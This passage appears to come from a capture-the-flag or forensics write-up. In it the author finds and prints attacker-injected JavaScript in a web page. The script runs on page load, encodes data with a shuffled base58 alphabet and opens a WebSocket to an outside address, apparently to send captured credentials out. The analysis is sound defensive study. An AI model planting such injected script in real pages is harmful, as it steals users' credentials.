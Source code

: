 It can be seen, that in order to calculate the `hash` I need to know:
`password`, `nonce` and `cnonce`, but from these three only last two are
known. By looking at the `function i()` I assume that the function creates a
valid, not vulnerable `SHA256` hash.  
As the result of this assumption, I have remembered about `WebSocket protocol`
I noticed before and quickly searched for `WebSocket` word in the source code.

### Websocket

After some formatting, I get the injected by an attacker code ([injected.js])
which looks like following:

```js  
window.addEventListener("DOMContentLoaded", function() {

 function encode(msg, key) {  
   var encoded_arr = [];  
   if (typeof s === "string") msg = (new TextEncoder("utf-8")).encode(msg);  
   var i=0, z;  
   for (;i < msg.length;i++) if(msg[i]) break;  
   z = i;  
   for (;i < msg.length;i++) {  
     var c = msg[i], j = 0;  
     for (;j in encoded_arr || c;j++) {  
       if (encoded_arr[j]) c += encoded_arr[j] * 256;  
       encoded_arr[j] = c % 58;  
       c = Math.floor(c / 58);  
     }  
   }  
   return key[0].repeat(z) + encoded_arr.reverse().map(x => key[x]).join("");  
 }

 function hash(s) {  
   var r = 0, i=0;  
   for (;i < s.length;i++) r = r * 31 + s.charCodeAt(i) | 0;  
   return r;  
 }

 function rand(s) {  
   var x = 123456789, y=362436069, z=521288629, w = 88675123, t;  
   return function(a, b) {  
     t = x ^ x << 11;  
     x = y; y = z; z = w;  
     w = w ^ w >> 19 ^ (t ^ t >> 8);  
     if (a !== undefined && b !== undefined) {  
       return a + w % (b + 1 - a);  
     }  
     return w;  
   };  
 }

 function shuffle(a, r) {  
   var i;  
   i = a.length - 1;  
   for (;i > 0;i--) {  
     var j = Math.abs(r(0, i));  
     var t = a[i]; a[i] = a[j]; a[j] = t;  
   }  
 }

 var ws = new WebSocket("ws://192.168.99.101:7467");  
 var key = "MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp";  
 var key2 = key;

```

[websocket]: <./files/websocket.png>  
[packets]: <./files/packets.png>  
[sockets.txt]: <./sockets.txt>  
[logger.pcap]: <./files/logger.pcap>  
[decoded]: <./files/decoded.png>  
[credentials]: <./files/credentials.png>  
[bundle.js]: <./files/bundle.js>  
[injected.js]: <./injected.js>  
[decoder.js]: <./decoder.js>  
[decoder.html]: <./decoder.html>